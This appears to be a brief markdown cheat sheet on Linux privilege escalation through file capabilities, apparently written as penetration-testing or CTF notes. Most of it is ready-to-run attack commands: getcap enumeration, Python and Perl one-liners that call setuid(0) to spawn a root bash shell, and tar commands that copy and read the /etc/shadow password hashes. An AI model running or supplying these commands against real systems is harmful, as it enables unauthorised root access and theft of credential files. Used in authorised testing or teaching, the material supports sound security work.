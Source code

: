 ## Capabilities ##

**Python**

Check the Privileges on the machine 
```getcap -r / 2>/dev/null```

See what privlege are givin to a function

```ls -al python3```

If root run exploit

```python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'```

Verify permissions

```id```

**Perl**

```./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";' ```

Verify permissions

`id`

** Tar ** 

Compress the /etc/shadow in the current directory with the help of the tar program

``` ./tar cvf shadow.tar /etc/shadow ``` 

Check for shadow password file

``` ls ```

Extract the shadow.tar and you will get a directory as “etc/shadow”

```./tar -xvf shadow.tar ```

View Password file

```tail -8 etc/shadow```

